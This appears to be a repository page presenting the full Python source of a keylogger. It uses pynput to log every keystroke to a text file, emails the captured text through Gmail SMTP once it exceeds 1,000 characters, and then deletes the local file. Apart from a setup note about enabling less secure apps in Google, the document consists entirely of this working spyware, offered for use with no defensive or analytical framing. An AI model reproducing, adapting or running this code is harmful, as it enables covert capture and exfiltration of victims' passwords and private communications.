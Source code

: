 # Keylogger
#Note you need to allow  the apps less secure in google
python
from pynput.keyboard import Listener,Controller,Key # Detect the Key
import smtplib # SEND THE MAIL
import subprocess # To use the terminal
def enviar(mensaje):
    if(len(mensaje)>1000):
        server=smtplib.SMTP('smtp.gmail.com',587)# Stablish the connection with the server
        server.starttls()# start the server
        server.login('Your mail','Your password')
        server.sendmail('your mail','mail destination',mensaje)
        server.quit()
        print('Todo bien')
        subprocess.call(['rm','Holas.txt'])# we remove the txt archive to create another one
    else:
        pass


def keyGrabation(key):
    key_str=str(key)
    with open('Holas.txt','a')as f: # we append the keyboard pulsation
        if(key_str=='Key.enter'):
            f.write('\n')
        elif(key_str=='Key.space'):
            f.write(' ')
        elif(key_str=='Key.backspace'):
            f.write(' Borrar ')
        else:
            f.write(key_str.replace("'",""))
    msj=open('Holas.txt','r')
    mensaje=msj.read()
    enviar(mensaje)

if __name__ == '__main__':#
    with Listener(on_press=keyGrabation) as l:# we create a listener that it is listening to the pultations
        l.join()
